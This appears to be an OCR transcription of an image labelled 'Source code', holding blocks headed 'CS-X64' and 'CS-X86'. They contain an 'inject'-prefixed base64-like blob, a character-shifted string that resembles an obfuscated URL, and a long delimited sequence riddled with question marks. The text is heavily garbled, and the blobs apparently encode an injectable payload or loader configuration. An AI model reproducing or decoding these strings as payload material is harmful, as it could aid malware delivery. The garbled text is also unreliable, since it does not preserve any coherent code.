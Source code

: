 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

bsrat3??4|2,??c;6,Z?;1??0,G;1??4,I;1????8,????l;????22,??x;26??,????w;30???,c;3?4?,y;3???8,8;??42,7??;46???,2;?50??,v?;54,??n;5???8,L;6?2,I????;6????6,?V;70???,????X;??74,??e;??78,??B;???82,U?;86,????J;90,???X;94,????7;98,???n;10?2,????C;1????06,?X;11??0,P;1??1???4,b???;11??8,e;?1???22,W???;12?6,?s;130???,J;????1????3????4,????8?;|h??Ar???cC0hZ???6ml?G???9YYIx??yClz????U2???x0LAw???v?hI????cxD???nyC??L??M8V?nB7??rNL????2NBqv?yU?2nT9l????L?105????Ig?DvV????D?ZeXV?nDe5w??0Bwlv???Uz????UYJ??09??zXnx??07?3ljnz???L????NCV????mAXv???gHPh??zm?bBVwe????PfBW???9ITs????xE???rJCL???38=qasfca
